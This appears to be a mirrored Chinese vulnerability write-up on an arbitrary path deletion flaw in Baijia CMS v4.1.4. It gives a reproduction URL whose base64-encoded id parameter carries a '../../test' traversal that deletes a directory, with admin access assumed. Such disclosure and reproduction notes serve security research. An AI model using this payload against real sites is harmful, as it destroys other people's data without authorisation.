 # 百家cms v4.1.4 任意路径删除漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3325](https://www.zhihuifly.com/t/topic/3325)

# 百家cms v4.1.4 任意路径删除漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# 需要后台权限
# 只能删除路径
http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1 
```

根目录下创建test文件夹，里面有内容为123的test.txt文件

![image](img/b2791d549d6ee9d1cf5ba922ddeaebf6.png)

访问payload
将参数转为base64并方位payload

![image](img/7936565bc7be4283bef41720a7b31b1d.png)

![image](img/ea79c722753555ad851f82835b21a027.png)

查看文件夹，已被删除

![image](img/5e1690aa0068433a7721f6e2be40877b.png)

## 参考链接

> https://xz.aliyun.com/t/7542